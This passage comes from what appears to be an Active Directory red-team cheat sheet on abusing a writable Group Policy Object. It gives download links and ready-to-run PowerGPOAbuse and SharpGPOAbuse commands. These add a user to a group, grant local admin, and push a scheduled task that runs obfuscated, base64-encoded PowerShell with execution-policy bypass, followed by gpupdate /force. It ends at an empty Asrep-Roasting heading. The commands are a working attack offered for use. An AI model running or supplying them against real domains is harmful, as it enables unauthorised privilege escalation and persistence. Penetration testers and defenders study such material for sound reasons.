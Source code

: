 ![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810181916.png)

- From the output above we found out that the name of GPO is **VulnerableGPO**

### Attack

**1. PowerGPOAbuse.ps1**

```bash
# Download
https://github.com/rootSySdk/PowerGPOAbuse

# Commands
. .\PowerGPOAbuse.ps1
Add-GPOGroupMember -Member 'GPOUser' -GPOIdentity 'VulnerableGPO' -Force
gpupdate /force

# Notes
- Make sure to run gpupdate /force everytime you make add changes.
```

**2. SharpGPOAbuse.exe**

```bash
# Download
https://github.com/FSecureLABS/SharpGPOAbuse
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpGPOAbuse.exe

# Commands
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount GPOUser --GPOName "VulnerableGPO" --force
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author BANK\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -ExecutionPolicy Bypass -Enc JgAgAEMAOgBcAHcAaQBuAGQAbwB3AHMAXAB0AGEAcwBrAHMAXAB0AG8AbwBsAHMAXABDAG8AbgB0AGUAbgB0AC4AcABzADEA" --GPOName "VulnerableGPO" --force
gpupdate /force
 
# Notes
- Make sure to run gpupdate /force everytime you make changes.
```

### References

```bash
1. https://herrscher.info/index.php/2021/04/11/red-teaming-guide/
2. https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#abusing-weak-gpo-permissions
3. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#exploit-group-policy-objects-gpo
4. https://labs.f-secure.com/tools/sharpgpoabuse/
5. https://4sysops.com/archives/run-powershell-scripts-as-immediate-scheduled-tasks-with-group-policy/
6. https://github.com/aniqfakhrul/archives
```

## Asrep-Roasting

